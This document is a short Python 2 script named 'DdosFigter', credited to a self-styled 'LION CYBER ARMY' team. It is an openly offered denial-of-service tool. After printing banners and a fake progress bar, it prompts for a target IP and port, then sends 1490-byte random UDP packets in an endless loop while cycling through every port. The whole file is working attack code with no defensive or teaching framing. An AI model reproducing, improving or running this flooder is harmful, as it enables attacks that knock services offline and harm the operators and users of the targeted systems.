 # DdosFigter
import sys
import os
import time
import socket
import random
#Code Time
from datetime import datetime
now = datetime.now()
hour = now.hour
minute = now.minute
day = now.day
month = now.month
year = now.year

##############
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1490)
#############

os.system("clear")
os.system("figlet Firewolf DDos Attack")
print
print "Author   : ISHAKPASOLLE"
print "TEAM     : LION CYBER ARMY"
print "Thanks   : CYBER SECURITY OFFICIALL"
print "Tingkat  : MENCOBA UNTUK MAJU"
print
ip = raw_input("IP Target : ")
port = input("Port       : ")

os.system("clear")
os.system("figlet Attack Starting")
print "[                    ] 0% "
time.sleep(5)
print "[=====               ] 25%"
time.sleep(5)
print "[==========          ] 50%"
time.sleep(5)
print "[===============     ] 75%"
time.sleep(5)
print "[====================] 100%"
time.sleep(3)
sent = 0
while True:
     sock.sendto(bytes, (ip,port))
     sent = sent + 1
     port = port + 1
     print "Sent %s packet to %s throught port:%s"%(sent,ip,port)
     if port == 65534:
       port = 1
